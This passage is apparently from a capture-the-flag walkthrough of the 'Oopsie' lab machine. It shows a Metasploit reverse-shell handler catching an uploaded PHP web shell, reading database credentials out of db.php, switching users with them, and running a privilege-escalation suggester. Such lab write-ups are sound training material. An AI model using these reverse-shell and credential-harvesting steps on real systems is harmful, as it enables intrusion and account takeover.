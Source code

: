 	Open up port to listen on:
	```
	sudo msfconsole
	use exploit/multi/handler
	options
	set payload php/meterpreter_reverse_tcp
	options
	set LHOST 10.10.15.117
	set LPORT 24785
	run
	```
	
	Execute the php file: `10.10.10.28/uploads/shell.php`
	Result: Meterpreter granted
	
	```
	getuid # Server username: www-data
	cd /home/robert
	cat user.txt
	```
	**User Flag:** `f2c74ee8db7983851ab2a96a44eb7981`

8. Lateral Movement
	The website records are probably retrieved from a database, so it's a good idea to check for database connection information. Indeed, `db.php` does contain credentials, and we can `su robert` to move laterally.
	```
	cd /var/www/html/cdn-cgi/login
	ls -la
	cat db.php
	```
	
	Result:
	```
	<?php
	$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
	?>
	```
	
	**Robert Password:** `M3g4C0rpUs3r!`
	
	Switch users:
	```
	meterpreter > shell
	Process 5906 created.
	Channel 15 created.
	SHELL=/bin/bash script -q /dev/null
	www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
	su robert
	Password: M3g4C0rpUs3r!

	```

9. Privilege Escalation
	* Attempt automatic Privilege Escalation
		```
		background
		use post/multi/recon/local_exploit_suggester
		options
		set SESSION 1
		run
		```
		Result: No suggestions found
		```
		[*] 10.10.10.28 - Collecting local exploits for php/linux...
		[-] 10.10.10.28 - No suggestions available.
		[*] Post module execution completed